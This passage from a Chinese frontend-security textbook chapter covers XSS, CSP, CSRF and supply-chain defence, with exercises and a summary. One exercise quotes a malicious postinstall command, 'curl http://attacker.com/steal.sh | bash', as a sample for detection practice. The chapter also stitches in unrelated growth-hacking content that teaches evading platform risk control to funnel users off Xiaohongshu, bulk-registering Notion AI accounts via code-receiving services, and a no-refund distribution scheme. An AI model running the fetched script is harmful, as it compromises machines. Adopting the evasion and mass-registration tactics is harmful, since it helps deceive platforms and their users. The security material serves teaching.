`'unsafe-inline'` 等于彻底关闭 CSP 对内联脚本的防护，攻击者只要找到任意 XSS 注入点即可执行任意代码。`nonce` 强制开发者显式标记合法内联脚本，`strict-dynamic` 解决了动态加载第三方库/模块的信任链传递问题。
**Trade-off**：nonce 要求服务端模板渲染每次生成随机值并注入模板，增加服务端渲染复杂度（SSR 必须支持）；纯静态站点需借助 Edge Worker/Service Worker 注入 nonce。

### 供应链安全中，为什么 `npm audit` 不够，还要引入 Socket/Snyk 行为审计？

`npm audit` 基于已披露 CVE 数据库，**纯被动、滞后**，对“零日供应链攻击”（恶意代码刚发布、维护者账号被盗发版本、Typosquatting 新包）完全无感知。Socket/Snyk 通过静态分析包代码行为（`postinstall` 执行 Shell、网络请求、读取敏感文件、代码混淆），实现**主动、安装前**拦截。
**Trade-off**：行为审计工具可能产生误报（如合法的构建工具也会执行 Shell），需建立白名单机制，增加初期配置成本。

### RPA 为什么不直接写 Python/Playwright 脚本，而用可视化低代码平台？

1.  **门槛差异**：可视化编程让“懂业务、不懂代码”的运营/财务/HR 直接参与自动化开发，扩大了自动化覆盖面。
2.  **维护可视化**：流程图即文档，非技术人员可直接阅读、修改分支逻辑，无需读代码。
3.  **非侵入式优势**：RPA 工具通常内置强大的元素识别/OCR/图像识别引擎，针对无 API、无无障碍树的场景（如微信、ERP 客户端）开箱即用，自研脚本需重复造轮子。
**Trade-off**：RPA 平台有授权成本、运行时性能开销大、难以实现复杂算法逻辑、版本锁定风险高。核心算法/高并发场景仍应用代码实现，**RPA + 代码混合模式**最优。

### 引流中为什么坚持“手写纸条/流程图”SOP，而不直接发二维码/链接？

平台风控模型对“图片中包含二维码/联系方式/链接特征”的检测极其成熟且严厉，直接发送必封。**手写纸条/流程图**将“联系方式”转化为“搜索指令/操作路径”，将违规特征从“敏感信息”降维为“普通图片/文字”，利用平台对“用户分享经验/教程”的宽容度存活。
**Trade-off**：用户操作路径变长（看图 -> 记词 -> 搜索 -> 关注 -> 私信），转化率下降，但**账号存活率大幅提升**，长期 ROI 更高。

### 热点变现中，为什么要“粗糙执行”也要“极速上架”，而非打磨完美再发？

热点红利窗口期以**小时/天**计，完美打磨需**周/月**。在窗口期内，“完成”优于“完美”。粗糙执行下的高转化率（1.9%）反而证明：**需求真实性 > 产品精致度**。先跑通闭环拿到现金流与种子用户，再迭代精细化。
**Trade-off**：品牌形象可能受损（错别字、简陋海报），需事后快速补齐；不适合高客单价、强信任依赖的重决策产品。

### 矩阵化扩张中，为什么要“去个人 IP 化”设计产品？

个人 IP 强绑定的项目，**不可复制、不可标准化、不可转让**，创始人精力成为硬天花板。去 IP 化（删除联系方式、统一服务号入口、标准化交付话术）将“个人品牌”转化为“标准化产品资产”，使合伙人/分身团队可无心理负担推广，实现真正的规模化。
**Trade-off**：放弃个人 IP 带来的高信任溢价与超高转化率，前期获客成本可能上升，需靠标准化 SOP 与分销裂变补偿。

---

## 42.13 动手练习

### 练习 1：XSS 上下文编码实战

**场景**：用户输入 `name` 将在以下 4 个位置渲染，请分别写出必须使用的编码函数或安全属性（伪代码即可）：
1. `<div class="username">{{name}}</div>`  —— HTML 文本节点
2. `<input value="{{name}}" />`  —— HTML 属性值 (双引号包裹)
3. `<a href="/search?q={{name}}">搜索</a>`  —— URL 查询参数
4. `<script>const user = '{{name}}';</script>`  —— JavaScript 字符串字面量

**回答问题**：
- 为什么不能统一用 `encodeURIComponent` 处理以上所有场景？
- 若第 3 处改为 `<a href="javascript:search('{{name}}')">`，编码策略需如何变更？
- React JSX / Vue 模板默认帮你做了哪些场景的转义？还有哪些『逃逸口』需手动处理？

---

### 练习 2：CSP 策略调试与 nonce 注入

**给定一个 Vue 3 + Vite 单页应用，需部署严格 CSP：仅允许同源脚本、样式、图片；允许连接 `https://api.example.com`；禁止内联脚本/样式、eval、object、frame；违规上报至 `/csp-report`。**

**任务**：
1. 写出完整的 `Content-Security-Policy` Header 值（使用 nonce + strict-dynamic 模式）。
2. 说明 Vite 构建时如何自动给入口 `<script>` 与内联 `<style>` 注入 `nonce` 属性（提示：`vite-plugin-csp-nonce` 或 `html-webpack-plugin` 思路）。
3. 第三方统计脚本 `https://hm.baidu.com/hm.js?xxx` 被 CSP 拦截，给出两种不降低安全等级的接入方案。

**回答问题**：
- 为何不推荐使用 `'sha256-...'` 哈希值替代 nonce？
- 如果老版本浏览器不支持 `strict-dynamic`，CSP 会如何降级？如何兼容？

---

### 练习 3：供应链安全 CI 门禁设计

**某 Monorepo 项目 (pnpm workspace) 包含 3 个子包，现需在 GitHub Actions 中建立供应链安全门禁：**

**任务**：
1. 编写工作流步骤：安装依赖 -> 审计生产依赖 (高危以上阻断) -> 运行 Socket/Snyk 扫描 PR 变更依赖 -> 生成 CycloneDX SBOM 上传为 Artifact。
2. `pnpm audit` 报告 `lodash@4.17.15` 存在原型链污染漏洞 (GHSA-xxxx)，但业务方称『暂无升级计划』，作为安全负责人你会如何处理？给出决策流程。
3. 新增依赖 `super-useful-lib@1.0.0`，其 `postinstall` 脚本包含 `curl http://attacker.com/steal.sh | bash`，说明 Socket 静态分析如何在安装前识别并拦截该行为。

**回答问题**：
- `npm audit` 与 Socket 检测能力的本质区别是什么？
- 为什么必须提交 `pnpm-lock.yaml` 到 Git？如果不提交会发生什么供应链风险？

---

### 练习 4：CSRF 防御矩阵决策

**某业务系统架构：主域 `app.example.com` (Cookie 认证)，子域 `api.example.com` (无状态 JWT Header 认证)，第三方支付 `pay.thirdparty.com` (需在 iframe 中嵌入，跨域 Cookie)。**

**请为每个场景选择最佳 CSRF 防御组合并说明理由**：
1. `app.example.com` 内部的转账 POST 接口
2. `api.example.com` 的删除资源 DELETE 接口
3. `pay.thirdparty.com` 在 iframe 中发起的支付确认 POST 请求

**回答问题**：
- 为什么 `api.example.com` 用 JWT Header 天然免疫 CSRF？但引入了什么新风险？如何缓解？
- `pay.thirdparty.com` 必须设置 `SameSite=None; Secure`，此时 SameSite 失效，靠什么兜底？
- 如果 `app.example.com` 存在一个反射型 XSS，SameSite=Lax 和 CSRF Token 能否阻止攻击者发起转账？为什么？

---

### 练习 5：安全基线 Checklist 与应急演练

**请为团队输出一份《前端安全编码 Checklist》（Markdown 表格形式），至少覆盖以下 5 类 15 条检查项**：
- XSS 防御 (编码、富文本、Trusted Types)
- CSRF 防御 (SameSite、Token、接口方法语义)
- CSP 与响应头 (CSP、HSTS、COOP/COEP、Referrer-Policy)
- 依赖与构建 (audit、lockfile、SBOM、Source Map 保护)
- 业务逻辑 (敏感操作二次确认、URL 跳转白名单、错误信息脱敏)

**附加任务：设计一次『XSS 注入触发 CSP 上报』的应急演练脚本，包含**：
1. 模拟攻击构造步骤
2. 监控告警触发条件 (如 5 分钟内 CSP 违规 > 10 次)
3. 现网定位与影响范围确认流程
4. 热修复方案对比：收紧 CSP 规则 vs 前端代码回滚 vs WAF 拦截，决策矩阵是什么？
5. 事后 RCA 模版关键字段

---

### 练习 6：RPA 自动化开发实战：微信红包数据采集

**场景**：某微信群 7 天内发出 9000+ 个红包，需自动化采集发送者、抢红包者、金额、时间等数据并生成分析报表。

**任务**：
1. 按照‘手动操作→步骤梳理→模块开发→运行测试→修复 BUG’五步法，绘制 RPA 流程图（含顺序/循环/分支结构）。
2. 列举并解决以下关键技术难点的应对方案：
   - 异形红包识别（颜色/形状异于普通红包）
   - 红包封面图遮挡内容（需滑动收起）
   - 干扰元素/过期红包识别与跳过
   - 去重存储策略（翻页重复读取）
   - 结束标志判定（滑动至列表底部）
   - 未知异常捕获与容错（Try-Catch 机制）
3. 设计滑动操作参数校准表：群聊列表滑动 vs 红包详情页滑动的区域选择与时长设置。
4. 说明如何用 Excel 透视表完成‘发红包维度’与‘抢红包维度’的多维分析建模。

**回答问题**：
- 为什么 RPA 最大价值不在于替代代码开发，而在于解决‘有界上下文内、高频重复、目标系统无开放 API/不支持脚本’的自动化需求？
- 可视化编程/低代码如何通过降低‘从 0 到 1’门槛，释放非技术人群的创造力？

---

### 练习 7：小红书引流行为设计：基于福格行为模型的合规 SOP

**背景**：需在小红书平台引流精准用户至私域微信，平台严禁直接留联系方式。

**任务**：
1. 运用 B=MAP 模型，定义目标用户的‘私信动机’（选题/封面/内容如何击中痛点）、‘私信能力’（SOP 教程如何降低操作门槛）、‘私信提示’（图片/评论/私信/群聊四大触点如何植入引导）。
2. 设计三类爆款封面制作标准（对比型/纯文字型/大合集型）及对应的引流选题三维筛选法（用户想要/用户有需求/戳痛点）。
3. 制定‘内容图隐性植入四法’：打印资料实物、不完整资料预告、收益截图、交付反馈截图，并说明如何规避平台风控检测。
4. 设计双模态私信 SOP 制作法（手写纸条 vs 流程图），规定必须包含的五要素信息（去哪找/搜什么词/如何识别/有何价值）。

**回答问题**：
- 为什么‘精准流量优于泛流量’是引流的铁律？百赞精准笔记 vs 万赞泛流量笔记的引流效果对比逻辑是什么？
- 平台规则收紧时，手写纸条形式 SOP 相比链接/二维码形式，在‘重复率’与‘群发判定概率’上有何本质优势？

---

### 练习 8：热点事件极速变现推演：GPT 封号热点的 Notion AI 替代方案

**背景**：ChatGPT 大规模封号事件爆发，用户面临‘需翻墙、怕封号、贵’三大痛点。团队拥有现成 AI 写作课程与 Notion AI 账号资源。

**任务**：
1. 用‘热点痛点三步拆解法’拆解用户痛点，并逐一映射 Notion AI 的非对称优势（无需翻墙/不封号/低成本年费会员）。
2. 设计‘👸号爆款标题双 A/B 测试法’：针对‘免翻墙’vs‘免封号’两个核心痛点框架，给出两个候选标题及选择决策逻辑。
3. 规划 Notion AI 账号自动化批量注册与开通技术方案：Python 脚本 + 邮箱接码平台 API，实现邮箱生成、验证码接收、账号注册、会员开通、凭证入库全流程。
4. 设计‘极速课程产品化包装 SOP’：从现有课程资产剥离模块 -> 创客贴出海报 -> 小鹅通搭建交付页 -> 优惠券设价 -> 分销后台配置，6 小时内完成上架。

**回答问题**：
- 为什么‘粗糙执行下的高转化率’反而验证了需求真实性与模型鲁棒性？（参考：错别字、海报粗糙、交付半自动化仍达 1.9% 转化率）
- 虚拟产品分销的‘高佣金/无退款/短结算’铁三角如何最大化调动推手积极性并规避平台风控？

---

### 练习 9：矩阵化规模化实战：从单体视频号到百号矩阵

**前提**：单个视频号月入 1 万，已跑通‘选品-剪辑-投流-变现’完整 SOP。

**任务**：
1. 设计‘矩阵化放大’的组织架构与分工：中心团队负责 SOP 迭代/选品/技术中台，分身团队负责执行/客服/发布。
2. 制定‘复制能力’的标准化考核指标：账号注册通过率、内容产出时效、合规通过率、单账号 ROI 稳定性。
3. 设计‘去个人 IP 化’产品包装策略：删除联系方式、统一服务号入口、标准化交付话术，降低合伙人推广心理门槛。
4. 规划分销裂变飞轮：40% 高佣金 + 实时结算 + 三天提现 + 虚拟产品无退款，激励种子用户转化为推销员。

**回答问题**：
- 为什么‘项目价值评估重构定理’主张看‘可复制性×门槛’而非单体收益绝对值？宝妈月入几千的小项目为何可能是隐性大项目？
- 矩阵收益放大公理的前提条件是什么？若复制成本边际不递减或成功率不可控，公理为何失效？

---

## 42.14 本章小结

这一章中我们学习了前端安全体系的纵深防御构建与商业自动化工程化落地的完整方法论。首先我们剖析了 XSS 攻击的三大分类与五大编码上下文，确立“输出编码为主、DOMPurify 白名单为辅、Trusted Types 类型系统强制、CSP 纵深兜底”的四层防御体系；其次我们对比了 CSRF 攻击原理与 SameSite Cookie 演进，给出了 Lax 默认防御、双重提交令牌兜底、跨域场景 None+Token 组合的决策矩阵；接着我们详解了 CSP 3 现代部署模式，从 nonce+strict-dynamic 核心指令到 Report-Only 灰度上线策略，再到第三方脚本兼容方案；然后我们建立了供应链安全四层防线（审计、锁文件、行为检测、SBOM）并落地 CI/CD 门禁；随后我们制定了安全基线三大清单与应急响应 SOP，接入 SDL 全生命周期。在工程化自动化篇，我们掌握了 RPA 五步开发法与关键技术模式（元素识别、参数化滑动、字典去重、末尾标志终止、Try-Catch 容错），实测采集 9000+ 微信红包数据；在商业增长篇，我们将福格行为模型工程化落地为引流三大模块与合规 SOP，验证精准流量优于泛流量；我们复盘了热点驱动变现的极速闭环打法（痛点拆解、替代品锚定、技术杠杆交付、分销裂变），6 小时实现 1.35 万变现；最后我们确立了矩阵思维核心公理——总收益 = 单体收益 × 成功复制分身数，重构项目价值评估体系，从单体深耕转向复制能力建设。

本章我们一起学习了以下概念：

| 概念 | 解释 |
|------|------|
| XSS (跨站脚本攻击) | 恶意脚本注入受信网站，分存储型/反射型/DOM-based，核心防御是上下文感知输出编码 |
| 五大编码上下文 | HTML/Attribute/JS/URL/CSS 编码互不通用，必须匹配输出位置，OWASP 首选输出编码而非输入过滤 |
| DOMPurify / Trusted Types | 富文本场景白名单清洗库 / W3C 标准强制敏感 DOM API 仅接受 TrustedHTML 类型，从类型系统根治 XSS |
| CSRF (跨站请求伪造) | 利用浏览器自动携带 Cookie 特性伪造用户操作，SameSite=Lax 可拦截 90%+ 跨站 POST/AJAX |
| SameSite Cookie | Strict(全禁)/Lax(默认,允许顶级 GET)/None+Secure(跨站需双重令牌)，子域共享时失效 |
| 双重提交令牌 | 后端生成 Token -> 前端读取回传 Header/Body -> 后端校验一致性，不依赖 SameSite 的兜底方案 |
| CSP 3 (内容安全策略) | 通过 HTTP Header 显式声明合法代码来源，核心模式 `script-src 'nonce-xxx' 'strict-dynamic'` 彻底禁用内联脚本 |
| CSP 部署策略 | Report-Only 灰度收集违规 -> 修正误报 -> 切换强制模式，配合 report-uri 实时监控攻击 |
| 供应链安全 | 守住 node_modules 后门：依赖审计 + 锁文件哈希锁版 + 恶意包行为检测 + SBOM 物料清单合规交付 |
| SBOM (软件物料清单) | 记录所有直接/间接依赖的名称、版本、哈希、许可证，格式 CycloneDX/SPDX，用于漏洞溯源与合规 |
| 安全基线清单 | 接入/编码/发布三大清单标准化，接入 SDL 全生命周期，CI/CD 自动化门禁阻断高危变更 |
| 应急响应 SOP | P0/P1/P2 分级响应：溯源取证 -> 热修复/回滚 -> 事后 RCA 复盘 -> 补全规范与测试用例 |
| RPA (机器人流程自动化) | ‘软件的软件’，通过可视化编程模拟人工操作，解决无 API、非标准化场景的自动化难题 |
| 福格行为模型 (B=MAP) | 引流行为 = 私信动机 × 私信能力 × 私信提示，逻辑层不变、方法层随平台迭代 |
| 热点驱动变现模型 | 极速响应热点 + 痛点锚定替代方案 + 技术杠杆实现交付即服务 + 分销裂变放大 = 正反馈闭环 |
| 矩阵思维与复制能力 | 项目价值取决于‘可复制性×门槛’，而非单体收益；总收益 = 单体收益 × 成功复制分身数 |

下一章中，我们将学习前端可观测性与异常监控体系建设，覆盖错误监控、性能监控、用户行为分析、链路追踪与自研平台搭建，实现“可看、可测、可优化”的生产级保障。


